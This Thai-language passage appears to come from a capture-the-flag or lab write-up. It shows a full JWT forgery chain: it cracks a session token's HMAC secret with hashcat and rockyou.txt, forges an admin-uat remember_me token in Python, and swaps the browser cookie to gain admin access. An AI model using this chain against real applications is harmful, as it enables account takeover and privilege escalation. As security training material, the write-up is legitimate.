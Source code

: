 Payload มีค่า `remember_me_token` ของ `user: test` ที่ถูกเข้ารหัสด้วย JWT

**เป้าหมาย:** ค้นหา **Secret Key** ที่ใช้เข้ารหัส เพื่อสร้าง JWT Token ใหม่สำหรับ `admin-uat`

ทำการ Brute Force **Secret Key** ของ `test` ด้วย `hashcat`:

```bash
hashcat -a 0 -m 16500 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0b2tlbiI6ImI4MTk0M2JhLWQxYzUtNDk1YS04NDI3LTQ3MTFjMzkyNTZiZiJ9.Rlk_a69lx16hNhwn4nBfRxhiMGmEDoPIcxfr1_7JdH8 rockyou.txt
```

**ผลลัพธ์:**

```bash
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0b2tlbiI6ImI4MTk0M2JhLWQxYzUtNDk1YS04NDI3LTQ3MTFjMzkyNTZiZiJ9.Rlk_a69lx16hNhwn4nBfRxhiMGmEDoPIcxfr1_7JdH8:"bobcats"
```

พบ Secret Key: `"bobcats"`

ใช้ Python Script เพื่อเข้ารหัส `remember_me_token` ของ `admin-uat` ด้วย Secret Key ที่พบ:

```python
import jwt

payload = {"token": "73eb7063-f8c3-4e50-bea2-07c05681aa92"}
secret_key = "bobcats"

token = jwt.encode(
    payload,
    secret_key,
    headers={"alg": "HS256", "typ": "JWT"}
)

print("Token's admin-uat:", token)
```

**ผลลัพธ์:**

```bash
Token's admin-uat: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0b2tlbiI6IjczZWI3MDYzLWY4YzMtNGU1MC1iZWEyLTA3YzA1NjgxYWE5MiJ9.IFc2uZiX_3x1ihXgRaANOPvmySpQzFz_wMD0up8Ny0I
```

เปลี่ยนค่า Cookie `remember_me` ใน Browser เป็น Token ใหม่นี้ แล้วเข้าสู่ระบบ จะได้สิทธิ์ **admin**

![ภาพที่ 4 แสดงการแก้ไข Cookie ใน Browser](./img/img4.png)
